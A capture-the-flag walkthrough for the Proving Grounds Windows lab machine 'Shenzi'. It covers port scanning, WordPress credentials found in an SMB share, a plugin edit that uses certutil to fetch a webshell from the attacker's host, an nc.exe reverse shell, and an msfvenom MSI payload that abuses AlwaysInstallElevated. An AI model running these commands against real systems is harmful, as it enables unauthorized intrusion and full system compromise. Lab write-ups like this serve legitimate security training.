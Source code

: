 # Shenzi

## Info

Shenzi is an intermediate windows machine from offsec proving grounds.

## Nmap

All tcp ports scan.

```
21/tcp    open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta
80/tcp    open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
445/tcp   open  microsoft-ds? syn-ack ttl 125
3306/tcp  open  mysql?        syn-ack ttl 125
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```

## SMB

anonymous login aloud to Shenzi share, the passwords.txt file has the following wordpress creds.

```
admin:FeltHeadwallWight357
```

## HTTP

After reading phpinfo and fuzzing, I tried the following directory which returned the wordpress site.

```
/shenzi
```

## User

After logging into the admin panel, I add the following line to the hello dolly plugin.

```
system("certutil -urlcache -split -f http://<ip>/shell.php C:\\xampp\\htdocs\\shenzi\\shell.php");
```

Activate the plugin to get a webshell uploaded.

Using the shell, I upload nc.exe.

```
impacket-smbserver -smb2support  share $(pwd)
```

```
copy \\<ip>\share\nc.exe C:\Users\Shenzi\Documents\
```

Execute.

```
C:\Users\Shenzi\Documents\nc.exe <ip> 5040 -e cmd
```

## Root

Checking for always install elevated policy.

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

As these are set to 0x1 it is vulnerable.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.169 LPORT=7680 -f msi > shell.msi
```

Execute to receive the shell.

```
.\shell.msi
```
